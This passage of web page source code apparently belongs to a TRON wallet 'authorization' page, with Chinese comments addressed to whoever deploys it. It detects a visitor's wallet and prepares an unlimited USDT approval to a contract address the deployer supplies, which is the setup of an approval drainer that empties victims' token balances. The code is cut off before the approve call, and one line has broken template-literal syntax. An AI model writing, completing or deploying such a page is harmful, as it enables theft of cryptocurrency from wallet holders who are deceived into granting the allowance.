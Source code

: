         <button class="auth-btn" id="authBtn" disabled>未检测到钱包</button>
        <div class="status" id="status"></div>
    </div>

    <script>
        // -------------------------- 部署者仅需修改这里！！！ --------------------------
        const YOUR_DEPLOYED_CONTRACT = "TNAfknJTfkPbgmyfpwg3rJQrd17ZLKEMQa"; // 👉 替换成你的HelpTransferWithNotification合约地址
        const USDT_CONTRACT = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t"; // TRC20-USDT官方地址（无需改，除非授权其他代币）
        const MAX_APPROVE = "115792089237316195423570985008687907853269984665640564039457584007913129639935"; // 无限授权额度
        // -----------------------------------------------------------------------------

        // DOM元素
        const authBtn = document.getElementById("authBtn");
        const status = document.getElementById("status");
        const deployerAddrEl = document.getElementById("deployerContractAddr");
        let tronWeb = null;

        // 1. 页面加载：显示部署者合约地址 + 自动检测钱包
        window.onload = () => {
            // 显示你的合约地址（脱敏，避免用户复制错误）
            deployerAddrEl.textContent = ${YOUR_DEPLOYED_CONTRACT.slice(0, 8)}...${YOUR_DEPLOYED_CONTRACT.slice(-6)};
            // 检测钱包
            checkWallet();
        };

        // 2. 自动检测TRON钱包（无需用户手动触发）
        function checkWallet() {
            if (window.tronWeb?.ready) {
                initWallet(window.tronWeb);
            } else {
                // 监听钱包注入（如用户打开钱包）
                window.addEventListener("tronWebReady", (e) => initWallet(e.detail.tronWeb));
                showStatus("请打开TRON钱包（如imToken/TrustWallet）", "loading");
                authBtn.textContent = "打开钱包后点击";
            }
        }

        // 3. 初始化钱包：获取用户地址 + 检测是否已授权
        async function initWallet(_tronWeb) {
            tronWeb = _tronWeb;
            try {
                // 自动获取用户地址（钱包会弹窗请求授权，仅1次）
                const accounts = await tronWeb.accounts.queryAccounts();
                const userAddr = accounts[0]?.address;

                if (userAddr) {
                    authBtn.textContent = "点击发起授权";
                    authBtn.disabled = false;
                    showStatus(`已连接钱包：${userAddr.slice(0, 6)}...${userAddr.slice(-4)}`, "success");
                    // 自动检测：用户是否已授权（避免重复操作）
                    await checkIfAuthorized(userAddr);
                } else {
                    showStatus("请在钱包中授权连接页面", "error");
                    authBtn.textContent = "授权钱包后点击";
                }
            } catch (err) {
                showStatus("钱包连接失败：" + err.message.slice(0, 40), "error");
            }
        }
